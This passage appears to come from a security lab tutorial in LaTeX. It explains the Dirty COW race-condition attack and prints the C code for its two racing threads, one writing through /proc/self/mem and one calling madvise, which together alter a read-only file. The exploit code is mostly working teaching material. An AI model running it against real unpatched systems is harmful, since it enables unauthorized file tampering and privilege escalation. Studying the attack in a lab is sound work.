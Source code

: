 In the above code, we need to find where the pattern \texttt{"222222"}is. We
use a string function called \texttt{strstr()} to find where \texttt{"222222"}
is in the mapped memory~(Line~). We then start two threads:
\texttt{madviseThread}~(Line~) and
\texttt{writeThread}~(Line~).



\subsection{Set Up the \texttt{write} Thread}

The job of the \texttt{write} thread listed in the following
is to replace the string \texttt{"222222"} in the
memory with \texttt{"******"}. Since the mapped memory is of COW type,
this thread alone will only be able to modify the contents in a copy of the mapped memory, which
will not cause any change to the underlying \texttt{/zzz} file.


\begin{lstlisting}[caption={The \texttt{write} thread},
                   label=cow:code:cow_attack:write]
/* cow_attack.c (the write thread) */

void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
\end{lstlisting}


\subsection{The \texttt{madvise} Thread}

The \texttt{madvise} thread does only one thing: discarding the private copy of
the mapped memory, so the page table can point back to the original mapped
memory.


\begin{lstlisting}[caption={The \texttt{madvise} thread},
                   label=cow:code:cow_attack:madvise]
/* cow_attack.c (the madvise thread) */

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
\end{lstlisting}


